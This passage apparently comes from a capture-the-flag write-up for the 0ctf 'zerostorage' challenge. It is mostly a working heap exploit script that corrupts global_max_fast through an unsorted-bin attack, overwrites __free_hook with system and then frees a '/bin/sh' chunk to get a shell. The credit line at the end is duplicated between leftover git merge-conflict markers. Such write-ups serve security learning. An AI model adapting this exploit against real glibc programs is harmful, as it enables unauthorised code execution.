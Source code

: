 ```
free_hook = libc + libc_bin.symbols['__free_hook']

log.info("Leak: " + hex(leak))
log.info("Libc: " + hex(libc))
log.info("Global_max_fast: " + hex(global_max_fast))
log.info("System: " + hex(system))

# Edit 2 to overwrite unsorted bin ptr, attack global_max_fast
edit(2, 0x20, "aaaaaaaa" + p64(global_max_fast-0x10) + "C"*0xf)

# /bin/sh to free later, insert triggers unsorted bin attack
insert(0x20, "/bin/sh\x00" + "D"*0x17) # 0

# Large fastbin, size appropriate for attack
merge(1, 1)                  # 3

# Fake fastbin over free hook
payload = p64(free_hook - 0x59)
payload += "A" * (0x1f7 - len(payload))

edit(3, 0x1f8, payload)

insert(0x1f8, "Q"*0x1f7)

# Overwrite free hook
payload2 = "\x00" * 0x49
payload2 += p64(system)
payload2 += "\x00" * (0x1f7 - len(payload2))

insert(0x1f8, payload2)       # 4

delete(0)

target.interactive()
```

<<<<<<< HEAD
I would like to give credit to this writeup for helping me solve an issue with the merging free affecting the fastbin size: [https://stfwlg.github.io/archivers/2016_0ctf-_zerostorage_%ED%92%80%EC%9D%B4]
=======
I would like to give credit to this writeup for helping me solve an issue with the merging free affecting the fastbin size: https://stfwlg.github.io/archivers/2016\_0ctf-\_zerostorage\_%ED%92%80%EC%9D%B4
>>>>>>> 62e51517054901aa0b7fd1508d70dcb095961589
